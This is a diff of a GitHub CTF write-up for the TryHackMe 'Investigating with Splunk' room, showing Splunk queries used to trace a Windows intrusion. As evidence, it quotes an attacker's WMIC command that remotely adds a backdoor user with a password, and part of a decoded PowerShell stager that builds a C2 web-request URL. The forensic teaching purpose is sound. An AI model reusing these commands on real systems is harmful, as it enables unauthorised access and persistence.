

Before and after one commit to abubakar-shahid/TryHackMe-CTFs-Writeups, a Markdown page: Medium/InvestigatingWithSplunk/InvestigatingWithSplunk.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Medium/InvestigatingWithSplunk/InvestigatingWithSplunk.md
+++ b/Medium/InvestigatingWithSplunk/InvestigatingWithSplunk.md
@@ -1,21 +1,32 @@
-# The task is related to the splunk, where user OR  the logs of the incident are already imbedded for us. We just have to analyze the logs. I used tryhackme's attackbox, where i had access to the target ipadress without any need of vpn.
+# Investigating Windows with Splunk
 
-1. To find the total number of logs, first go the the [Search & Reporting] tab, appearing in the side meny bar. Here we can see a search bar. There is a filter of timeline of the logs. Select it to [All Time]. Search for [index=main] since we have all the logs ingested into the main index (given in the statement). Here, we can see the total number of logs ingested in the index main [12256].
-2. To find the new username, we have to use the filter of something that indicates the creation of new user. So, try this [index=main (create user OR new user OR user account)]. This gave one log in which the creation of a new host was clear. Analyze the command that the attacker used. The username of the new user is present in the command, rather than in any explicit information of the logs [A1berto].
+## Challenge Information
+- **Challenge Name**: Investigating Windows
+- **Category**: Forensics
+- **Difficulty Level**: Medium
 
-3. Since we have to figure out the change in registry key, we will use the filter of registry event whose id is [13]. Moreover, it is given that it is on the same host, we will use the keyword [A1berto] in the filter as well [index=main port=60427 EventID=13 "A1berto"]. This will give us one event in which we can see the TargetObject [HKLM\SAM\SAM\Domains\Account\Users\Names\A1berto].
+## Task Description
+The task is related to the splunk, where user OR the logs of the incident are already imbedded for us. We just have to analyze the logs. I used tryhackme's attackbox, where i had access to the target ipadress without any need of vpn.
 
-4. The user that the attacker was trying to impersonate was obviously [Alberto].
+## Investigation Process
 
-5. Since we want the command that was executed from a remote computer, we will use a filter of [wmic], but do not forget to add the filter of [A1berto]  [index=main (wmic) "A1berto"]. This gave 4 events, among which the first one contained [C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add A1berto paw0rd1].
+1. Since we have to find the total number of logs, first go the the `Search & Reporting` tab, appearing in the side meny bar. Here we can see a search bar. There is a filter of timeline of the logs. Select it to `All Time`. Search for `index=main` since we have all the logs ingested into the main index (given in the statement). Here, we can see the total number of logs ingested in the index main `12256`.
 
-6. Use the filter [index=main EventID=4624 "A1berto"] because the id [4624] represents successful login requests while we include [A1berto] because this is the username whom the attacker is trying to impersonate. Applying this filter, we do not see any request. Hence, the answer is [0].
+2. To find the new username, we have to use the filter of something that indicates the creation of new user. So, try this `index=main (create user OR new user OR user account)`. This gave one log in which the creation of a new host was clear. Analyze the command that the attacker used. The username of the new user is present in the command, rather than in any explicit information of the logs `A1berto`.
 
-7. [James.browne] is that famous name that we could see again and again, on which the malicious activities were occuring.
+3. Since we have to figure out the change in registry key, we will use the filter of registry event whose id is `13`. Moreover, it is given that it is on the same host, we will use the keyword `A1berto` in the filter as well `index=main port=60427 EventID=13 "A1berto"`. This will give us one event in which we can see the TargetObject `HKLM\SAM\SAM\Domains\Account\Users\Names\A1berto`.
 
-8. Using the filter [index=main EventID=4103 OR EventID=4104] because [4103] indicates script block logging and [4104] detailed script block logging, the total events came out to be [79].
+4. The user that the attacker was trying to impersonate was obviously `Alberto`.
 
-9. In the same filter, we could see a command in which there was a long encoded base64 string. Copy this string and decode it (given at the last of the document). It will give a long string. Format and try to understand it. The attacker is trying to make a web request in it. In the lines
-[
+5. Since we want the command that was executed from a remote computer, we will use a filter of `wmic`, but do not forget to add the filter of `A1berto` `index=main (wmic) "A1berto"`. This gave 4 events, among which the first one contained `C:\windows\System32\Wbem\WMIC.exe" /node:WORKSTATION6 process call create "net user /add A1berto paw0rd1`.
+
+6. Use the filter `index=main EventID=4624 "A1berto"` because the id `4624` represents successful login requests while we include `A1berto` because this is the username whom the attacker is trying to impersonate. Applying this filter, we do not see any request. Hence, the answer is `0`.
+
+7. `James.browne` is that famous name that we could see again and again, on which the malicious activities were occuring.
+
+8. Using the filter `index=main EventID=4103 OR EventID=4104` because `4103` indicates script block logging and `4104` detailed script block logging, the total events came out to be `79`.
+
+9. In the same filter, we could see a command in which there was a long encoded base64 string. Copy this string and decode it (given at the last of the document). It will give a long string. Format and try to understand it. The attacker is trying to make a web request in it. In the lines:
+```powershell
 $ser=$([TeXT.ENCodiNG]::UnicodE.GetStriNG([CoNVeRT]::FroMBASe64StRInG('aAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADAALgA1AA==')));
 $t='/news.php';
````
Also changed, not shown: other parts of Medium/InvestigatingWithSplunk/InvestigatingWithSplunk.md (+11 -7 lines).
